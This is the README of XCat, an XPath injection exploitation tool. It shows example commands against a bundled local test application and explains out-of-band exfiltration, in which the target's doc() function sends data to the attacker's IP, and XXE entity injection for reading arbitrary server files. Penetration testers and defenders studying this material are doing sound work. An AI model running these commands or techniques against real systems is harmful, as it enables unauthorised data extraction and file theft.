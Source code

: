 About XCat
==========

Features
--------
* Exploits both GET and POST attacks
* Extracts all nodes, comments, attributes and data from the entire XML document
* Small and lightweight (only a few pure-python dependencies)
* Parallel requests
* XPath 2.0 supported (with graceful degrading to 1.0)
* Advanced data postback through HTTP (see below)
* Arbitrarily read XML files on the servers file system via the doc() function (see below)
* Arbitrarily read text files on the servers file system via crafted SYSTEM entities

Features planned for future releases:

* [Regex](http://www.w3.org/TR/xpath-functions/#func-matches) pattern matching to reduce character search space
* [Unicode normalization](http://www.w3.org/TR/xpath-functions/#func-normalize-unicode)
* Error based retrieval

Examples
--------
If you run a windows machine you can install IronPython and start the example application (example_application/ironpython_site.py).
The syntax for a simple command you can execute against this server is:

    xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve

This command specifies the target URL (our localhost server), the GET or POST data to send (title=Bible), the vulnerable
parameter (title) and a string to indicate a true response (Book found). Executing this will retrieve the entire XML file
being queried.

    >> xcat --public-ip="localhost" http://localhost:80 title=Bible title "Book found" run retrieve
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    Retrieving /*[1]
    <?xml version="1.0" encoding="utf-8"?>
    <lib test="1" attribute1="3">
        <book>
                <!-- Comment -->
                <title>Bible</title>
                <description another="attribute">The holy book</description>
    ...

The the retrieval of documents can be sped up in a number of different ways, such as using the doc function to make the
server send data directly to XCat (explained in more detail below). Each of the techniques is called a feature and can
be viewed by using the `test_injection` command. This will display information about the injection, including the
type (integer, string, path name) and various features that XCat has is able to use. XCat knows which features
are best and will gracefully degrade if they fail for any reason.

    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" test_injection
    Testing parameter title:
    SingleQuoteStringInjection:             /lib/book[name='?']
        - XPath2
        - CodepointSearch
        - DocFeature
        - EntityInjection
        - EfficientSubstringSearch

Usage
-----
Before specifying what data you want to extract from the injection you need to tell XCat how to exploit it. XCat can't
do this for you, so you have to do the initial hard work of finding a vulnerability. XCat needs a target URL it can
reach, URL encoded arguments, the vulnerable parameter and a string to match in the response. The initial data given
must be valid and trigger either a true or false response.

    Usage: xcat [OPTIONS] TARGET ARGUMENTS TARGET_PARAMETER MATCH_STRING
                      COMMAND [ARGS]...

    Options:
      --method TEXT                   HTTP method to use
      --true                          match_string indicates a true response
      --false                         match_string indicates a false response
      --loglevel [debug|info|warn|error]
      --logfile FILENAME
      --public-ip TEXT                Public IP address to use with OOB
                                      connections
      --help                          Show this message and exit.

    Commands:
      run
      test_injection  Test parameter for injectability

The two most useful commands are `run retrieve` and `run file_shell`. The first allows you to retrieve the whole document
being processed by the query in either XML or JSON format and specify a file for it to be dumped to.

    Usage: xcat-script.py run retrieve [OPTIONS]

    Attempt to retrieve the whole XML document

    Options:
      --query TEXT         Query to retrieve. Defaults to root node (/*[1])
      --output FILENAME    Location to output XML to
      --format [xml|json]  Format for output
      --help               Show this message and exit.

The second command takes no additional arguments but enables you to read arbitrary files on the filesystem. This only
works if the vulnerable parameter supports the doc feature (and optionally entity injection):

    >> xcat --public-ip="localhost" http://localhost:80 "title=Bible" title "Book found" run file_shell
    Injecting using SingleQuoteString
    Detecting features...
    Supported features: XPath 2, String to codepoints, External DOC function, Entity injection, Substring search speedup
    There are three ways to read files on the file system using XPath:
     1. inject: Can read arbitrary text files as long as they do not contain any XML
     2. comment: Can read arbitrary text files containing XML snippets, but cannot contain '-->'
     3. doc: Reads valid XML files - does not support any other file type. Supports remote file URI's (http) and local ones.
    Type doc, inject or comment to switch modes. Defaults to inject
    Type uri to read the URI of the document being queried
    Note: The URI should have a protocol, e.g: file:///test.xml. Bad things may happen if the URI does not exist, and it is best to use absolute paths.
    >> uri
    URI: file:///C:/Users/x/xcat/src/example_application/input.xml
    >> file:///C:/Users/x/xcat/src/example_application/
    secret.txt
    secret.xml
    ...
    >> doc
    Switched to doc mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.xml
    <?xml version="1.0" encoding="utf-8"?>
    <this_contains_xml>
        <node>
            hello
    ...
    >> inject
    Switched to inject mode
    >> file:///C:/Users/x/xcat/src/example_application/secret.txt
    This is a secret file. Do not read me!

### Simple usage with the example application
Check out the [readme](src/example_application) to try out XCat with the provided example application.


HTTP Postback / doc function and entity injection
----------------------------

Possibly the most advanced feature of XCat is its 'HTTP postback' feature. The XPath 2.0 schema defines a function
called [doc](http://www.w3.org/TR/xpath-functions/#func-doc) which allows the programmer to load external documents
from the file system or even from a remote network resource via HTTP/HTTPS. If the doc function is enabled and working
then XCat will use it where possible to greatly speed up document retrieval times. It does this by running a small HTTP
server within the program which listens on a specified port and by then calling the doc() function with the currently
targeted node's data URI encoded and appended to a query. This means the XPath library will make a HTTP request to your
IP (requires the port to be forwarded and/or a public IP) in the following format similar to:

	http://YOUR_IP/?data=some%20data%20goes%here

This is far more efficient than iterating over the string character by character and can greatly reduce the retrieval times.

You can (ab)use this function to load XML file on the system, as long as you have read permissions over it, allowing
you to retrieve lots of lovely XML configuration files - you can jump into a pseudo-shell within XCat by using
the fileshell command (shown above) and enter the file path for an XML file.

This can be taken one step further by using entity injection to read arbitrary files on the file system. XCat does this
by starting a HTTP server and makes the vulnerable application load an XML file from it. This XML file contains crafted
DOCTYPE declarations that cause the application to include local files in the XML file as it is being parsed, the contents
of which can then be queried and sent back to XCat in another HTTP request.

[This OWASP wiki page](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) covers XML entity
injection this technique in more detail.

